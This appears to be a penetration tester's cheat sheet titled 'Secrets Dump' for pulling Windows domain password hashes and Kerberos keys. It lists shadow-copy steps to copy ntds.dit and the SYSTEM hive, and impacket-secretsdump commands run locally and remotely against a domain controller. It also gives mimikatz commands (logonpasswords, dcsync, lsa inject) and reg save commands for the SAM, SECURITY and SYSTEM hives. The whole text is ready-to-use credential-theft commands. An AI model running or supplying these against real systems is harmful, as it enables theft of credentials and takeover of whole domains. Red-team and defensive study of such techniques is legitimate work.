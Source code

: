 # Secrets Dump
## Domain hashes & kerberos keys
#### Local
vssadmin create shadow /for=C:
copy PATH \Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
reg SAVE HKLM\SYSTEM C:\Windows\Temp\SYS
vssadmin delete shadows /shadow=ID
`impacket-secretsdump -ntds <NTDS.DIT> -system <SYS> LOCAL`

#### Remote
`impacket-secretsdump -just-dc '<DOMAIN>/<USER>:<PASS>@<DC_IP>'`






crackmapexec

Check with `Privilege::debug` if the right priv are set (admin).

Sekurlsa::logonpasswords
Lsadump::dcsync /user:\<USER\> /domain:\<DOMAIN\>
Lsadump::lsa /inject /name:\<USER\>

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```
